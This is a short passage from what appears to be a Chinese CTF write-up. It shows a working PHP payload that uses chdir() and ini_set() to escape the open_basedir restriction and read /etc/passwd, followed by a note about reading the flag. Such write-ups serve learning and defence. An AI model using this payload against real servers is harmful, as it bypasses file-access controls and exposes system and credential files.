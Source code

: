 ![image-20211108112245163](images/5.png)

只能访问当前目录

利用chdir()和ini_set()组合绕过

```
<?php
mkdir('T0WN');  //创建一个目录T0WN
chdir('T0WN');  //切换到T0WN目录下
ini_set('open_basedir','..');  //把open_basedir切换到上层目录
chdir('..');  //以下这三步是把目录切换到根目录
chdir('..');
chdir('..');
ini_set('open_basedir','/');  //设置open_basedir为根目录(此时相当于没有设置open_basedir)
echo file_get_contents('/etc/passwd');  //读取/etc/passwda
```

payload

```
mkdir('T0WN');chdir('T0WN');ini_set('open_basedir','..');chdir('..');chdir('..');chdir('..');ini_set('open_basedir','/');echo file_get_contents('/etc/passwd');
```

![image-20211108141332859](images/6.png)

读到了/etc/passwd

![image-20211108141442203](images/7.png)

读一下flag
